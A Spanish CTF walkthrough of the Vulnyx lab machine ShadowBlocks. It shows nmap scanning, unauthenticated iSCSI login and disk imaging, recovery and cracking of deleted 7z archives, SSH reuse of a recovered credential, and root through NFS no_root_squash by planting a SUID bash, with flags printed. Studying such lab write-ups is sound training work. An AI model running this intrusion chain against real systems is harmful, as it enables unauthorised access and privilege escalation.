





# ShadowBlocks Vulnyx (Easy - Linux)

## Contexto de la maquina

### Trayectoria ShadowBlocks

<figure><figcaption></figcaption></figure>

### Descripción

ShadowBlocks es una máquina de tipo Linux orientada a evaluación de fallos de exposición de almacenamiento, análisis forense y escalada de privilegios mediante servicios mal configurados. El reto combina técnicas de reconocimiento de servicios poco comunes, recuperación de información eliminada y explotación de configuraciones inseguras en NFS.

**Objetivo del Reto**

Comprometer el sistema obteniendo acceso inicial mediante información sensible recuperada desde un volumen iSCSI expuesto, escalar privilegios hasta root y capturar ambas flags (`user.txt` y `root.txt`).

**Tipo de Máquina**

* Linux
* Storage / Network Services
* Enumeración y Forense
* Privilege Escalation

**Habilidades y Técnicas Evaluadas**

* Enumeración con Nmap
* Enumeración y montaje de targets iSCSI
* Adquisición forense con `dd`
* File Carving con PhotoRec
* Cracking de archivos 7z protegidos
* Acceso inicial por reutilización de credenciales
* Enumeración local de configuraciones inseguras
* Explotación de NFS con `no_root_squash`
* Abuso de binarios SUID para privilegios root

### Análisis de vulnerabilidades

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

## Escaneo de puertos

Comenzamos con un escaneo completo para identificar servicios expuestos:

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

Posteriormente realizamos enumeración y detección de versiones sobre los puertos descubiertos:

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-12 10:15 -0400
Nmap scan report for 192.168.5.149
Host is up (0.00038s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7 (protocol 2.0)
3260/tcp open  iscsi   Synology DSM iSCSI
| iscsi-info: 
|   iqn.2026-02.nyx.shadowblocks:storage.disk1: 
|     Address: 192.168.5.149:3260,1
|_    Authentication: NOT required
MAC Address: 00:0C:29:0E:DE:54 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 101.74 seconds
```

Observamos únicamente **dos puertos abiertos**, pero uno resulta especialmente interesante: **3260/tcp**, correspondiente a **iSCSI**.

**iSCSI (Internet Small Computer Systems Interface)** es un protocolo que permite acceder a almacenamiento remoto a nivel de bloque como si se tratara de un disco local. En esencia, hemos descubierto un **disco duro compartido por red** expuesto sin autenticación.

### Enumeración del target iSCSI

Vamos a identificar cómo se anuncia ese volumen en la red utilizando `iscsiadm`:

```shell
sudo iscsiadm -m discovery -t sendtargets -p <IP_VICTIM>
```

Respuesta:

```
192.168.5.149:3260,1 iqn.2026-02.nyx.shadowblocks:storage.disk1
```

Se identifica como:

```
iqn.2026-02.nyx.shadowblocks:storage.disk1
```

Lo interesante es que coincide con el `iqn` visto previamente en el output de Nmap.

Dado que el servicio indica que **no requiere autenticación**, intentamos conectarnos directamente al target:

```shell
sudo iscsiadm -m node --targetname "iqn.2026-02.nyx.shadowblocks:storage.disk1" --portal "<IP_VICTIM>:3260" --login
```

Respuesta:

```
Login to [iface: default, target: iqn.2026-02.nyx.shadowblocks:storage.disk1, portal: 192.168.5.149,3260] successful.
```

La conexión se establece correctamente.

### Verificación del nuevo disco

Comprobamos que el dispositivo se ha adjuntado al sistema:

```shell
sudo lsblk
```

Respuesta:

```
NAME   MAJ:MIN RM  SIZE RO TYPE MOUNTPOINTS
sda      8:0    0 80.1G  0 disk 
└─sda1   8:1    0 80.1G  0 part /
sdb      8:16   0  150M  1 disk 
└─sdb1   8:17   0  149M  1 part 
```

Aparece un nuevo disco, `sdb`, con una partición `sdb1`, que corresponde al volumen iSCSI remoto.

### Montaje del volumen

Procedemos a montarlo localmente para inspeccionar su contenido.

Creamos primero un punto de montaje:

```shell
sudo mkdir -p /mnt/iscsi
sudo mount /dev/sdb1 /mnt/iscsi
```

Respuesta:

```
mount: /mnt/iscsi: WARNING: source write-protected, mounted read-only.
```

El disco se monta en **solo lectura**, algo ideal desde un enfoque forense, ya que evita modificar evidencia.

### Análisis inicial del contenido

Una vez montado, listamos el contenido:

```shell
ls -la /mnt/iscsi
```

Respuesta:

```
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:40 2026 󰁯 backups
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:32 2026  configs
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:50:57 2026  docs
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:14 2026  engineering
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:11 2026  finance
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:18 2026  hr
drwxrwxr-x root root 1.0 KB Sat Feb 28 12:51:22 2026  logs
drwx------ root root  12 KB Sat Feb 28 12:49:17 2026  lost+found
.rw-rw-r-- root root  20 MB Sat Feb 28 12:49:49 2026  random_fill.bin
```

A simple vista no se observa ningún archivo claramente sensible o útil para explotación directa, por lo que será necesario profundizar más.

## Escalate user lenam

#### Creación de una imagen forense

<figure><figcaption></figcaption></figure>

Para realizar un análisis más profundo sin alterar el disco original, decidí desmontarlo y generar una **imagen forense bit a bit**.

Esto nos permite trabajar sobre una copia exacta del volumen, preservando la integridad de la evidencia original y permitiendo análisis offline.

Primero desmontamos el volumen:

```shell
# Desmontar disco del sistema
sudo umount /mnt/iscsi
```

Después generamos una imagen completa del disco, incluyendo tabla de particiones y espacio no asignado:

```shell
# Crear imagen del disco completo (incluyendo tabla de particiones)
sudo dd if=/dev/sdb of=/<PATH>/iscsi_full.img bs=4096 status=progress
```

Respuesta:

```
38400+0 records in
38400+0 records out
157286400 bytes (157 MB, 150 MiB) copied, 0.733931 s, 214 MB/s
```

Con esto obtenemos una copia forense íntegra (`iscsi_full.img`) sobre la que podremos buscar datos borrados, metadatos ocultos o artefactos no visibles desde el sistema de archivos montado.

#### Recuperación de archivos con PhotoRec

Una vez generada la imagen forense, utilizamos **PhotoRec**, una herramienta especializada en recuperación de archivos mediante técnicas de _file carving_ (escaneo por firmas o cabeceras), lo que permite extraer archivos incluso aunque hayan sido eliminados o ya no estén referenciados por el sistema de archivos.

Esto es especialmente útil en escenarios forenses, donde puede existir información residual no visible mediante un simple montaje del volumen.

```shell
sudo photorec iscsi_full.img
```

### Configuración interactiva de PhotoRec

A continuación, se muestran los pasos seguidos dentro de la interfaz de `PhotoRec` para realizar la recuperación:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

#### Resultados de la recuperación

<figure><figcaption></figcaption></figure>

Una vez finalizado el proceso, PhotoRec genera automáticamente un directorio llamado `recup_dir.1` en la ruta de salida. Al inspeccionar su contenido encontramos los siguientes archivos:

```
.rw-r--r-- root root 480 B  Sun Apr 12 10:58:03 2026  f0018434.7z
.rw-r--r-- root root 480 B  Sun Apr 12 10:58:03 2026  f0018448.7z
.rw-r--r-- root root 1.8 KB Sun Apr 12 10:58:10 2026  report.xml
```

Se recuperaron **dos archivos comprimidos en formato `.7z`**, ambos de 480 bytes, junto con un `report.xml`.

Al intentar extraer los comprimidos observamos que están protegidos con contraseña:

```shell
7z x f0018434.7z
7z x f0018448.7z
```

Respuesta:

```
Enter password (will not be echoed):
```

### Cracking de la contraseña

Para intentar recuperar la contraseña, extraemos primero el hash del archivo utilizando `7z2john` y posteriormente lo atacamos con `john`.

```shell
# Extraer los hashes de los ZIPs
7z2john f0018434.7z > hash1
7z2john f0018448.7z > hash2

# Paso de crackear los 2 hashes
john --wordlist=<WORDLIST> hash1
john --wordlist=<WORDLIST> hash2
```

Respuesta:

```
Using default input encoding: UTF-8
Loaded 1 password hash (7z, 7-Zip archive encryption [SHA256 256/256 AVX2 8x AES])
Cost 1 (iteration count) is 524288 for all loaded hashes
Cost 2 (padding size) is 6 for all loaded hashes
Cost 3 (compression type) is 0 for all loaded hashes
Cost 4 (data length) is 122 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
donald           (f0018434.7z)     
1g 0:00:00:14 DONE (2026-04-12 11:13) 0.06963g/s 71.30p/s 71.30c/s 71.30C/s andre..bethany
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contraseña recuperada para `hash1` es `donald`, y comprobamos que también funciona para el segundo comprimido.

```shell
7z x f0018434.7z
```

Metemos como contraseña `donald`...

```
--
Path = f0018434.7z
Type = 7z
Physical Size = 480
Headers Size = 208
Method = LZMA2:12 7zAES
Solid = -
Blocks = 1

Everything is Ok

Size:       338
Compressed: 480
```

La extracción se realiza correctamente. Además, el segundo archivo comprimido contenía el mismo contenido, por lo que con uno de ellos es suficiente.

Se recupera un archivo llamado `credentials.txt` con la siguiente información:

```
ShadowBlocks Internal Access Credentials
=======================================

System: Primary Storage Node
Environment: Production
Access Level: Administrative

Username: lenam
Password: 3vEbN3bM6NhOa1640weG

Note:
This file is intended for temporary migration procedures only.
It must be deleted after use.
Last reviewed: 2026-02-15
```

Aquí obtenemos unas credenciales válidas, aparentemente utilizadas para procedimientos internos de migración, que vamos a probar para acceso remoto por SSH.

### SSH (lenam)

```shell
ssh lenam@<IP>
```

Metemos como contraseña `3vEbN3bM6NhOa1640weG`...

```
Linux shadowblocks 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar  1 17:17:49 2026 from 192.168.1.5
lenam@shadowblocks:~$ whoami
lenam
```

Veremos que el acceso es válido y ya tenemos shell como el usuario `lenam`.

Con esto podemos leer la flag de usuario:

> user.txt

```
c94a424cb23a6b53b235511a01a9a443
```

## Escalate Privileges

<figure><figcaption></figcaption></figure>

Si ejecutamos un `id`, veremos los grupos a los que pertenece nuestro usuario:

```
uid=1000(lenam) gid=1000(lenam) grupos=1000(lenam),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),101(netdev)
```

Observamos que el usuario pertenece a varios grupos interesantes, aunque en principio ninguno parece ofrecer una vía directa de escalada.

### Enumeración y hallazgo de NFS mal configurado

Tras un rato enumerando el sistema, encontramos un archivo especialmente interesante en `/etc` llamado `exports`, que define recursos compartidos por **NFS**:

> exports

```
# /etc/exports: the access control list for filesystems which may be exported
#		to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/srv/nfs *(rw,sync,fsid=0,no_subtree_check,no_root_squash,insecure)
```

Aquí destaca especialmente la opción:

```
no_root_squash
```

Esto es **altamente vulnerable**.

Normalmente, cuando un usuario `root` accede a un recurso NFS remoto, el servidor aplica _root squashing_, mapeando ese `root` remoto a un usuario sin privilegios (`nobody`) para evitar abusos.

Sin embargo, con `no_root_squash`, esa protección queda deshabilitada y **el usuario root del cliente actúa como root en el servidor NFS**.

En otras palabras: si logramos montar este recurso como `root`, podremos escribir archivos en el servidor con permisos de root, incluyendo binarios SUID para escalar privilegios.

### Intento de montaje directo

Probamos montar el recurso NFS desde nuestra máquina atacante:

```shell
sudo mount -t nfs 192.168.5.149:/srv/nfs /mnt/nfs_shadow
```

Pero vemos que no funciona.

En este caso, aunque NFS está expuesto, el servicio solo acepta conexiones desde contexto local/restringido, por lo que acceder directamente vía red no resulta viable.

### Tunelización del servicio NFS

Para solucionar esto, vamos a tunelizar el puerto NFS (**2049**) mediante SSH, de forma que el recurso aparezca como local en nuestra máquina.

```shell
sudo ssh -L 2049:<IP_VICTIM>:2049 lenam@<IP_VICTIM>
```

Metemos como contraseña `3vEbN3bM6NhOa1640weG`...

```
Linux shadowblocks 6.12.73+deb13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.12.73-1 (2026-02-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Apr 12 17:17:17 2026 from 192.168.5.131
lenam@shadowblocks:~$
```

Con esto mantenemos una sesión SSH abierta con **port forwarding** sobre el servicio NFS.

Comprobamos en Kali que el túnel está escuchando:

```shell
ss -tuln | grep "2049"
```

Respuesta:

```
tcp   LISTEN 0      128        127.0.0.1:2049       0.0.0.0:*   
tcp   LISTEN 0      128            [::1]:2049          [::]:*
```

Vemos que funciona correctamente.

### Montar el recurso a través del túnel

Ahora repetimos el montaje, pero contra localhost:

```shell
sudo mkdir -p /mnt/nfs
sudo mount -t nfs -o vers=4 127.0.0.1:/ /mnt/nfs
```

Esta vez el montaje funciona correctamente.

### Abuso de `no_root_squash`

Como tenemos acceso root efectivo sobre el recurso exportado, vamos a copiar una `bash` con bit **SUID**:

```shell
sudo cp /bin/bash /mnt/nfs/exploit
sudo chmod u+s /mnt/nfs/exploit && sudo chmod +x /mnt/nfs/exploit
```

Lo que estamos haciendo es dejar en el servidor un binario propiedad de root con permisos `SUID`.

Desde la máquina víctima verificamos que aparece en el recurso exportado:

```shell
ls -la /srv/nfs/
```

Respuesta:

```
-rwsr-xr-x 1 root root 1380656 abr 12 17:45 exploit
-rw-rw-r-- 1 root root       0 feb 28 21:20 text.txt
```

Se observa que `exploit` tiene el bit `SUID` activo:

```
-rwsr-xr-x
```

Por lo que vemos ha funcionado de forma correcta.

### Obtener root

Ahora simplemente ejecutamos la bash SUID con `-p` para preservar privilegios:

```shell
/srv/nfs/exploit -p
```

Respuesta:

```
exploit-5.3# whoami
root
```

Veremos que con esto ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
402482f61c16a59f688d36d5134f97d1
```
